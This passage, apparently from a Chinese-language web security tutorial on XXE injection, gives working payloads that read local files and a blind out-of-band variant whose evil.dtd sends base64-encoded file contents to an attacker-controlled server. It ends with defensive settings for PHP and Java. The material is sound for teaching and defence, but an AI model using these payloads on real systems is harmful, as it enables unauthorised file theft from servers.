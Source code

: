 ```xml-dtd
<!ENTITY send SYSTEM "file:///d:/www.txt">
```

### 无回显

###### 读取文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/www.txt">
<!ENTITY % dtd SYSTEM "http://127.0.0.1:80/evil.dtd"> 
<!-- 这是发送到自己服务器的地址 -->
%dtd;
%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/?data=%file;'>"
<!-- 通过日志或者变量去接收 -->
>
%payload;
```

这个方法是写在日志里面的。需要开启相应的日志模块，并且读取出来的数据是base64编码的。需要对其数据解码。

###### 绕过

协议-读文件（绕过）

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]>
<x>&f;</x>
```

## 漏洞修复与防御方案

1. 禁用外部实体

   PHP

   ```php
   libxml_disable_entity_loader(true);
   ```

   JAVA

   ```java
   DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
   dbf.setExpandEntityReferences(false);
   ```
